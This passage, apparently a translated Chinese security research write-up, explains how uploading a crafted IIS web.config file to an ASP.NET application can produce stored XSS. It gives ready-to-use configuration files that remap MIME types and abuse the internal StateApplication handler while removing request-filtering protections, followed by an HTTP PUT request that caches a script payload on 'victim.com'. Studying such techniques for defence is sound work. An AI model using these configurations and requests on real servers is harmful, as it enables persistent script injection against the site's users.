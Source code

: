 也可以创建存储型 XSS。当其他方法因任何原因不起作用时，这可能很有用。

在上文中讨论了通过上传`web.config`文件使应用受 XSS 攻击的一些方法。例如，当允许下载某些文件时，可以通过操作 mimetypes 进行 XSS 攻击。以下示例显示.txt 文件如何作为`.html`文件运行：

```plain
<?xml version="1.0" encoding="utf-8"?>
<configuration>
    <system.webServer>
        <staticContent>
            <remove fileExtension=".txt" />
            <mimeMap fileExtension=".txt" mimeType="text/html" />
        </staticContent>
    </system.webServer>
</configuration>
```

在这篇博客文章中，还发现了两个新 ASP.NET 处理程序。

##### 2.3.1 使用 State Application 处理程序

StateApplication 处理程序是 System.Web.SessionState 命名空间内的一个内部类，用于缓存并且不应该直接从用户代码调用。使用任意文本替换任何现有文件的响应可能会被滥用。

以下 web.config 文件显示了一个示例，使用该示例使用 XSS 有效内容替换 web.config 的响应：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
        <handlers>
            <add name="web_config" path="*.config" verb="*" type="System.Web.SessionState.StateApplication,System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a" resourceType="File" requireAccess="Script" />
        </handlers>
        <security>
            <requestFiltering>
                <hiddenSegments>
                    <remove segment="web.config" />
                </hiddenSegments>
                <fileExtensions>
                    <remove fileExtension=".config" />
                </fileExtensions>
            </requestFiltering>
        </security>
    </system.webServer>
</configuration>
```

要在缓存中创建存储的`XSS 525600`分钟（最大数量），应在上传`web.config`文件后发送以下请求：

```plain
PUT /testwebconfig/userfiles/web.config HTTP/1.1
Host: victim.com
Http_Timeout: 525600
Content-Length: 25

<script>alert(1)</script>
```
